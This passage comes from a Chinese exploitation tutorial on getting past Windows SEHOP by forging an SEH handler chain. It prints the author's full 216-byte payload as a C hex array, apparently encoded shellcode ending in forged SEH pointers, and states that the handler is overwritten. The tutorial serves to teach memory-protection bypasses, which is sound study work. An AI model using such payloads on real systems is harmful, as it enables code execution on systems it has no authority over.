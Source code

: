 可以看到我们的 `SEH_Record[0]` 地址为 `0x19FE84`，我们知道了我们的 Payload 所需的大小，我们就来布置 Payload。  
这里给出我的 Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SEHOP\Debug\111.txt
// Address : 0 (0x0)
// Size    : 216 (0xD8)
//------------------------------------------------------------
unsigned char hexData[216] = {
    0xBE, 0xE8, 0x88, 0x3C, 0xFD, 0xD9, 0xD0, 0xD9,
    0x74, 0x24, 0xF4, 0x5A, 0x33, 0xC9, 0xB1, 0x30,
    0x31, 0x72, 0x13, 0x03, 0x72, 0x13, 0x83, 0xEA,
    0x14, 0x6A, 0xC9, 0x01, 0x0C, 0xE9, 0x32, 0xFA,
    0xCC, 0x8E, 0xBB, 0x1F, 0xFD, 0x8E, 0xD8, 0x54,
    0xAD, 0x3E, 0xAA, 0x39, 0x41, 0xB4, 0xFE, 0xA9,
    0xD2, 0xB8, 0xD6, 0xDE, 0x53, 0x76, 0x01, 0xD0,
    0x64, 0x2B, 0x71, 0x73, 0xE6, 0x36, 0xA6, 0x53,
    0xD7, 0xF8, 0xBB, 0x92, 0x10, 0xE4, 0x36, 0xC6,
    0xC9, 0x62, 0xE4, 0xF7, 0x7E, 0x3E, 0x35, 0x73,
    0xCC, 0xAE, 0x3D, 0x60, 0x84, 0xD1, 0x6C, 0x37,
    0x9F, 0x8B, 0xAE, 0xB9, 0x4C, 0xA0, 0xE6, 0xA1,
    0x91, 0x8D, 0xB1, 0x5A, 0x61, 0x79, 0x40, 0x8B,
    0xB8, 0x82, 0xEF, 0xF2, 0x75, 0x71, 0xF1, 0x33,
    0xB1, 0x6A, 0x84, 0x4D, 0xC2, 0x17, 0x9F, 0x89,
    0xB9, 0xC3, 0x2A, 0x0A, 0x19, 0x87, 0x8D, 0xF6,
    0x98, 0x44, 0x4B, 0x7C, 0x96, 0x21, 0x1F, 0xDA,
    0xBA, 0xB4, 0xCC, 0x50, 0xC6, 0x3D, 0xF3, 0xB6,
    0x4F, 0x05, 0xD0, 0x12, 0x14, 0xDD, 0x79, 0x02,
    0xF0, 0xB0, 0x86, 0x54, 0x5B, 0x6C, 0x23, 0x1E,
    0x71, 0x79, 0x5E, 0x7D, 0x1F, 0x7C, 0xEC, 0xFB,
    0x6D, 0x7E, 0xEE, 0x03, 0xC1, 0x17, 0xDF, 0x88,
    0x8E, 0x60, 0xE0, 0x5A, 0xEB, 0x9F, 0xAA, 0xC7,
    0x5D, 0x08, 0x73, 0x92, 0xDC, 0x55, 0x84, 0x48,
    0x22, 0x60, 0x07, 0x79, 0xDA, 0x97, 0x17, 0x08,
    0xDF, 0xDC, 0x9F, 0xE0, 0xAD, 0x4D, 0x4A, 0x07,
    0xE4, 0xFF, 0x19, 0x00, 0xB4, 0xFD, 0x19, 0x00 
};
```

然后可以看到，我们的 SEH 异常处理指针被我们成功覆盖，SEH 异常处理链也伪造完成：

[![](assets/1710900248-9dea21d9230cc80e44fc30ecab00ae75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301152714-1fe6a68e-d79d-1.png)

关于 SEHOP 的介绍我们就介绍到这里，关于伪造 SEH 异常处理链表的伪造，如果还有不懂的，可以参考一下这篇博客[内存保护机制及绕过方法 —— 通过伪造 SEHOP 链绕过 SEHOP 保护机制](https://www.cnblogs.com/zhang293/p/9052261.html) 。
